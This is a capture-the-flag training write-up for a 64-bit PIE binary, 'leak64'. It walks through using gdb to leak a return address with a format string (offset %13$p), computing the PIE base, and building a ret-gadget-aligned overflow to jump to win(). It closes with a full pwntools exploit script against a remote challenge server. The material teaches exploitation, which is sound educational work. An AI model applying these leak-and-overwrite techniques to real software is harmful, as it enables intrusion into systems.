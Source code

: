 ```yaml
---
description: PIE again, 64-bit edition.
---
```


# leak64

{% file src="../../.gitbook/assets/leak64.zip" %}

This binary is remarkably similar to the last one, with two major differences:

1. We can't forget about the `movaps` fault; we need a way to mitigate this.
2. Addresses are 64-bit but are formatted very similarly.

Since this is the same binary as the last one, just compiled in 64-bit, we will skip most of the static analysis.

### The Attack Vector

First, we need to find a leakable address on the stack. We'll use `gdb` to do this because, in 64-bit, it's often a high-valued offset.

```as
gef➤  x/10gx $rsp
0x7fffffffe3c0:	0x7025207025207025	0x2520702520702520
0x7fffffffe3d0:	0x2070252070252070	0x0000007025207025
0x7fffffffe3e0:	0x0000000000000000	0x0000000000000000
0x7fffffffe3f0:	0x00007fffffffe400	0x00005555555552ba
0x7fffffffe400:	0x0000000000000001	0x00007ffff7c29d90
```

We like the 8th value on the stack because it matches the format of the instructions nearby. If we check where it is:

```as
gef➤  x/wx 0x00005555555552ba
0x5555555552ba <main+18>:	0x000000b8
```

This is our return pointer to `main()`! We can choose to leak this value and then overwrite it later. Our offset for the format string is going to be `13`.

{% hint style="danger" %}
#### _Uh, why?_

In 64-bit, there are 6 registers. The first is reserved for the format string so we don't count that one. This makes our offset `8+6-1=13`.
{% endhint %}

Now we have what we need. We can leak the address of `main() + 18` and then overwrite the return pointer with the address of `win()`.

```python
p.sendline(b'%13$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.main + 18)
```

We also need a way to beat the `movaps` instruction. Because PIE is enabled, we can't hardcode gadgets. This means we have to find what function they're in, their offset, and then use that for our gadget. In this case, we can pull any `ret`, I tend to use `deregister_tm_clones()` because I know it's not problematic. We find our `ret` instruction:

```as
   0x0000555555555158 <+40>:	ret    
```

We can use this to build our payload:

```python
payload = b'A' * 0x38
payload += p64(elf.sym.deregister_tm_clones + 40)
payload += p64(elf.sym.win)
```

Then, we send the payload off and get the flag! Here is the full exploit:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./leak64')
p = remote('vunrotc.cole-ellis.com', 7300)

p.recvline()

p.sendline(b'%13$p')
p.recvuntil(b'Nice to meet you ')
leak = int(p.recvline().strip(), 16)
elf.address = leak - (elf.sym.main + 18)

payload = b'A' * 0x38
payload += p64(elf.sym.deregister_tm_clones + 40)
payload += p64(elf.sym.win)

p.recvuntil(b'message?')
p.sendline(payload)
p.interactive()
```
{% endcode %}
